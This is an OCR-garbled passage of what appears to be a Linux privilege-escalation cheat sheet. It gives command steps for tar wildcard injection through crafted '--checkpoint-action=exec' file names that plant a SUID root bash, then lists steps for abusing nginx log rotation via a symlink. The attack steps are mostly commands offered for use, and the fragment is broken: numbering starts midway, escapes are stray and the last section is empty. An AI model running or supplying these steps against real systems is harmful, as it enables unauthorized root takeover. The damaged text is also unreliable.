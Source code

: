 Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing Scheduled Tasks

Methods:

6.  echo \'cp /bin/bash /tmp/bash; chmod +s /tmp/bash\' \>
    > /home/user/systemupdate.sh;

7.  touch /home/user/ \--checkpoint=1;

8.  touch /home/user/ \--checkpoint-action=exec=sh\\systemupdate.sh

9.  Wait a while

10. /tmp/bash -p

11. id && whoami

<a name="abusing-file-permission-via-suid-binaries-symlink"></a>
# Abusing File Permission via SUID Binaries - Symlink) 

Domain: No

Local Admin: Yes

OS: Linux

Type: Abusing File Permission

Methods:

1\.

su - www-data;

2\.

nginxed-root.sh /var/log/nginx/error.log;

3\.

In root user

invoke-rc.d nginx rotate \>/dev/null 2\>&1

<a name="abusing-file-permission-via-suid-binaries-environment-variables-1"></a>
# Abusing File Permission via SUID Binaries - Environment Variables \#1) 

Domain: No

Local Admin: Yes

OS: Linux

